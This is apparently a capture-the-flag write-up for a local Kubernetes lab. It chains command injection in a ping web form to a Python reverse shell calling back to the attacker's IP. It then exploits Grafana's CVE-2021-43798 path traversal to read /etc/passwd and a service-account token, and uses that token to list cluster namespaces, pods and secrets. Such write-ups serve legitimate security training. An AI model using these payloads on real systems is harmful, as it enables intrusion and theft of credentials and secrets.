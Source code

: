 # Challenge write up

## Introduction

We have a virtual machine that run a kind cluster. We can access the cluster using the kubectl command. We can also access the cluster using the dashboard.

The virtual machine only expose the port 80, that is a web application. We have to exploit the web application to get a shell on the pod that run the web application.

## Step 1

We have a web application, running on port 80. We can access the web application using the browser.

The first phase is the discovery of the application. Our target will be the web application running on [http://localhost:8080](http://localhost:8080).
We can grab application banner to detect the framework used by the web application.

```bash
curl -IL http://localhost:8080
```

This gave us the following result:

```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.9.16
Date: Sun, 21 May 2023 13:41:25 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1627
Connection: close
```

Inside the web application, we can see a form that allow us to enter value and the prompt return a `ping <value>` response.
We can try some command injection using `|` and `;`, for example we can try `; ls` that show us the webserver source code.

Using that command injection, we can try to get a reverse shell on the server. We can use the following command:

```bash
8.8.8.8; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_LOCAL_IP>",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

_Don't forget to replace `<YOUR_LOCAL_IP>` by your IP address._

This command will spawn a reverse shell on the server, but we have to listen on the port 9001 to get the shell.

```bash
nc -lvnp 9001
```

When the python code will be interpreted, this will order the server to initiate a connection on the target IP and PORT provided (in our case, that our laptop).
Notice that even if they were a firewall, the connection will be initiated from the server to our laptop, so the firewall will not block the connection. Firewall should have block the connection if we are connecting to the server but not the opposite.

## Step 2

Gaining access to the pod allow us to use it as proxy and request the cluster from an internal resource.

**At this stage, the attacker should try to enumerate the cluster to find some interesting resources.**

He should try to enumerate his cluster permissions, namespaces, pods, secrets, etc, using the pods serviceAccount token.

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

For example, we can try to get secrets:

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/secrets" -m 3 --insecure
```

### Discovery script

I wrote a simple bash script allowing me to scan the cluster network to find kubernetes services. For information, kubernetes services default ip range is 10.96.0.0/16.

```bash
#!/bin/bash
# Set the timeout value (in seconds)
timeout=0.03
# Loop through each IP address in the range 10.96.0.0/16
for third_octet in {89..92}; do
  for fourth_octet in {0..255}; do
    ip="10.96.$third_octet.$fourth_octet"

    # Loop through each port
    while read -r port; do
      url="http://${ip}:${port}"
      response_code=$(curl -s -o /dev/null -w "%{http_code}" --max-time $timeout "$url")

      if [[ $response_code -ge 200 && $response_code -lt 400 ]]; then
        echo "Success: $url (HTTP $response_code)"
        # Continue testing other combinations
      fi
    done < "ports.txt"
  done
  echo "Range 10.96.$third_octet.0/24 done"
done
```

Note: This script will take a long time to complete, i recommend to cheat and ajust the ip range to scope the grafana ip.

At this step, you will find some accessible IP addresses.
For convenience, we can set the ip on a variable:

```bash
export TARGET_IP=<IP_FOUND>
```

```bash
curl -IL http://$TARGET_IP:3000
```

Get the grafana version running:

```bash
curl http://$TARGET_IP:3000/login | grep "subTitle"
```

You should find that the grafana running is outdated and futhermore, the version 8.3.0 is weel-know to be vulnerable to CVE-2021-43798.

Damn, it's vulnerable: https://github.com/jas502n/Grafana-CVE-2021-43798

If you inspect the CVE informations, you can understand that we can use an endpoint to read file on the grafana server without being authenticated.
The endpoint is `/public/plugins/alertlist/../../../../../../../../etc/passwd`

### Attacking

To get some information about the server, we can try to read the `/etc/passwd` file.

```bash
curl --path-as-is http://$TARGET_IP:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
```

Damn, we can read the `/etc/passwd` file. That's mean we can read any file on the server.
Obviously, that's cool and we are already gaining some cool stuff, but as a reminder, we are on a kubernetes cluster, we can get cooler stuff ;)

Kubernetes give serviceAccount to pods allowing them to have access, roles or others things. As described in the documentation, the ServiceAccount token of your Pod is provisionned by kubernetes on the pod filesystem at this location:
`/var/run/secrets/kubernetes.io/serviceaccount/token`

Using this vulnerability on grafana and our knowledge, we can grab the service account token of grafana and use it to interact with the cluster.

```bash
curl --path-as-is http://$TARGET_IP:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```

You can check what's in the JWT on [JWT.io](https://jwt.io/)

### Interact with the cluster using the service account

Set your token environment variable:

```bash
export TOKEN=$(curl --path-as-is http://$TARGET_IP:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token)
```

At this step, we own the grafana serviceAccount token, allowing us to request the cluster as if we were the grafana pod. (And with the grafana serviceAccount permissions).

#### Namespaces

For example, you can try to list namespaces for your cluster:

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/namespaces" -m 3 --insecure
# OR
wget --header="Authorization: Bearer $TOKEN" --timeout=3 --no-check-certificate https://kubernetes.default.svc:443/api/v1/namespaces
```

#### Pod

Listing pods.

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/pods" -m 3 --insecure
# OR
wget --header="Authorization: Bearer $TOKEN" --timeout=3 --no-check-certificate https://kubernetes.default.svc:443/api/v1/pods
```

Notice: As you are using the grafana serviceAccount, you will only see the pods that are on the same namespace as grafana. But you can change the namespace to see others resources.

For example, you can try to list the pods on the kube-system namespace:

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/namespaces/kube-system/pods" -m 3 --insecure
```

#### Secrets

Listing secrets.

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/secrets" -m 3 --insecure
# OR
wget --header="Authorization: Bearer $TOKEN" --timeout=3 --no-check-certificate https://kubernetes.default.svc:443/api/v1/secrets
```

For example, you can try to list the secrets on the kube-system namespace:

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/namespaces/kube-system/secrets" -m 3 --insecure
```

If you want to decrypt the secrets, you can use the following command:

```bash
echo <SECRET_VALUE> | base64 -d
```

